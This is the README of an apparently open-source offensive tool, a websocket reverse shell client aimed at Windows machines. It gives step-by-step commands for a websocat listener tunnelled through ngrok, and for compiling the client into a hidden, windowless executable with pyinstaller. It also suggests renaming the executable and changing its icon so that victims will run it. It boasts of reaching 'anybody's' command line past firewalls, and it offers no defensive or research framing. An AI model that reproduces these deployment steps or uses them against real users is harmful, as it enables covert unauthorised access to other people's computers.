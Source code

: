 <p align="center">
  <img src="./Images/NEMESIS_TEAM_LOGO.jpg" alt="NEMESIS TEAM LOGO" style="border-radius:5px"/>
</p>

# Intelligent Reverse Shell Client

## Introduction
 - This program is the client side of Reverse shell attack, It was created as a fun project but things get intresting when you can gain access to anybody's Windows command line without being concerned about the FIREWALL xD.
 - Because the Information are being transfered through Websocket, Firewall can do nothing to stop it on the client's system.
 - and Also about the security, By using this you don't need to do port forwarding and other unsafe stuff, so your security is more GURANTEED.
 - the only problem is the speed, the speed may be a little low and that depends on which tunneling service you are using, for now we use ngrok.

## DESCRIPTION
 - If you are the hacker you have to listen for the connection using websocat(included in project for both linux and Windows) and expose it to the internet with ngrok.
 - and then you have to paste the wss address to the main.py -> (the client file) and compile it to exe

---
## How to use
 * Assuming you already have enough knowledge about python, pyinstaller and websockets.

    First of all install the Requirements :
    ```
    pip install -r requirements.txt
    ```
    
    <br>then we have to first setup the listener, It is recomented to listen on a linux machine but Windows is also alright
    as you can see in `Listeners` Directory we have <a href="https://github.com/vi/websocat">Websocat</a><br>
     both for windows and linux, If you faced any error try downloading the last version

     based on your OS run:
    ```
    websocat -s xxxx
    ```
    where xxxx is the port you want to listen on so replace it with a port number like
    ```
    websocat -s 5050
    ```
    <br>
    Now we have to expose port 5050 to the internt so we can make it accessible for the target so we can access the target Windoes machine.
    <br>
    Doanload <a href="https://ngrok.com">ngrok</a>.<br><br>
    After downloading ngrok:<br>
    on windows : Move it to a folder so you can run it by opening a cmd in that directory<br>
    on Linux: Also do the same thing as windows except you also have to give execute permition to it by running:<br>
    
    ```
    chmod +x ngrok
    ```
    Then run it:
    ```
    ./ngrok http 5050
    ```
    (!) Note : make sure the port you are using for both websocat and ngrok are the same.<br>
    After Running that you will see something like this:<br>
    <p align="center">
    <img src="./Images/ngrok.png" alt="ngrok"/></p>
    Just Copy the link as underlined in the screen shot and paste it in `address = ""` variable in main.py
    <br><br>

    Now that we have set up our liteners we need to compile the main.py to exe.
    <bt>
    run:

    
    -   ```
        pip install pyinstaller
        ```
    - ```
      pyinstaller --onefile --noconsole main.py
        ```
    
        - Now You'll find the executable in dist and we will gain access to the windows machine who runs this executable
         - you can rename it to whatever you want and even change the icon to make it more realistic.
    
    



---
## NOTES
- Any Recommendation will be appreciated, don't forget `Pull requests` if you have any idea to improve this project . 👙🤺


### Do not HeZiTaTe to open issues if there was a problem!
<p align="center">
❤️❤️❤️
</p>